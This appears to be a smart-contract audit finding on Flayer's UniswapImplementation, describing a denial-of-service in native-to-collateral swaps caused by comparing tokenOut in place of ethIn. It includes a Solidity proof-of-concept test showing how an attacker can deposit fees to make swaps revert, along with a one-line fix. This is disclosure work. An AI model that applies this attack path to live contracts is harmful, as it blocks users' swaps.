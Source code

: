 Sharp Blonde Camel

Medium

# DoS on swaps from native token to collateral token

### Summary

Due to the invalid check of the amount to be swapped, the swaps from **native token** to **collateral token** revert when the fees value in collateral token (kept in the hooks) is greater then the swapped amount of native token.


### Root Cause

In [UniswapImplementation.sol#L547](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/implementation/UniswapImplementation.sol#L547) the value being compared is `tokenOut` instead of `ethIn`.


### Internal pre-conditions

In case when not attacker deposits their fees, there is a pre-condition that there should be fees in collateral token accrued by the hook. Otherwise, the attacker must deposit some fees in collateral token to activate the bug. 


### External pre-conditions

None

### Attack Path

There are two cases, when the fees are deposited by the listings automatically and when the attacker deposits fees manually to activate the bug earlier.

After that, when user tries to swap an amount X of native token to the collateral token, and the fees accrued in collateral token are worth more in native token that the amount being swapped, the swap reverts.

### Impact

Inability to swap native token to collateral token with native token amount lower or equal to the collateral token fees value.


### PoC

Run this test as part of `UniswapImplementation.t.sol`.

```solidity
    function test_abuser_InabilityToSwapEqualOrMoreAmount1ThanFees() public withLiquidity {
        // @audit PoC: InabilityToSwapEqualOrMoreAmount1ThanFees
        // When there are X fees added in amount1, users cannot swap native to token1 than with native amount lower or equal to value of fees in amount1
        
        // Remove any collection tokens we may have
        deal(address(unflippedToken), address(this), 0);

        // Give tokens and approfe for deposit fees
        deal(address(unflippedToken), address(this), 0.1 ether);
        unflippedToken.approve(address(uniswapImplementation), type(uint).max);
        uniswapImplementation.depositFees(address(unflippedErc), 0, 0.1 ether);

        // Give tokens and approve for swap
        WETH.approve(address(poolSwap), type(uint).max);
        deal(address(WETH), address(this), 0.2 ether);

        PoolKey memory poolKey = _poolKey(false);

        (uint160 sqrtPriceX96, , , ) = poolManager.getSlot0(poolKey.toId());

        IPoolManager.SwapParams memory swapParams = IPoolManager.SwapParams({
            zeroForOne: true,
            amountSpecified: -0.2 ether,
            sqrtPriceLimitX96: TickMath.MIN_SQRT_PRICE + 1
        });

        // Action our swap on unflipped
         poolSwap.swap(
            poolKey,
            swapParams,
            PoolSwapTest.TestSettings({
                takeClaims: false,
                settleUsingBurn: false
            }),
            ''
        );
    }
```

### Mitigation

Fix the comparison in [this line](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/implementation/UniswapImplementation.sol#L547):
```diff
-                if (tokenOut <= uint(-params.amountSpecified)) {
+                if (ethIn <= uint(-params.amountSpecified)) {
```